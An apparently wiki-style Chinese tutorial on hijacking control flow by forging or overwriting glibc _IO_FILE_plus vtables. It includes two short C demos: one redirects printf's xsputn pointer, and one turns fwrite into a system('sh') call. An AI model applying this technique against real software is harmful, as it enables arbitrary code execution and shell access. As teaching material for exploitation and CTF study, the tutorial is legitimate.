 # 伪造vtable劫持程序流程


## 简介

前面我们介绍了Linux中文件流的特性（FILE），我们可以得知Linux中的一些常见的IO操作函数都需要经过FILE结构进行处理。尤其是_IO_FILE_plus结构中存在vtable，一些函数会取出vtable中的指针进行调用。

因此伪造vtable劫持程序流程的中心思想就是针对_IO_FILE_plus的vtable动手脚，通过把vtable指向我们控制的内存，并在其中布置函数指针来实现。


因此vtable劫持分为两种，一种是直接改写vtable中的函数指针，通过任意地址写就可以实现。另一种是覆盖vtable的指针指向我们控制的内存，然后在其中布置函数指针。

## 实践


这里演示了修改vtable中的指针，首先需要知道_IO_FILE_plus位于哪里，对于fopen的情况下是位于堆内存，对于stdin\stdout\stderr是位于libc.so中。

```
int main(void)
{
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("123.txt","rw");
    vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
    
    vtable_ptr[7]=0x41414141; //xsputn

    printf("call 0x41414141");
}
```

根据vtable在_IO_FILE_plus的偏移得到vtable的地址，在64位系统下偏移是0xd8。之后需要搞清楚欲劫持的IO函数会调用vtable中的哪个函数。关于IO函数调用vtable的情况已经在FILE结构介绍一节给出了，知道了printf会调用vtable中的xsputn，并且xsputn的是vtable中第八项之后就可以写入这个指针进行劫持。

并且在xsputn等vtable函数进行调用时，传入的第一个参数其实是对应的_IO_FILE_plus地址。比如这例子调用printf，传递给vtable的第一个参数就是_IO_2_1_stdout_的地址。

利用这点可以实现给劫持的vtable函数传參，比如


```
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_ptr;
    fp=fopen("123.txt","rw");
    vtable_ptr=*(long long*)((long long)fp+0xd8);     //get vtable
    
    memcpy(fp,"sh",3);
    
    vtable_ptr[7]=system_ptr; //xsputn
    

    fwrite("hi",2,1,fp);
}
```
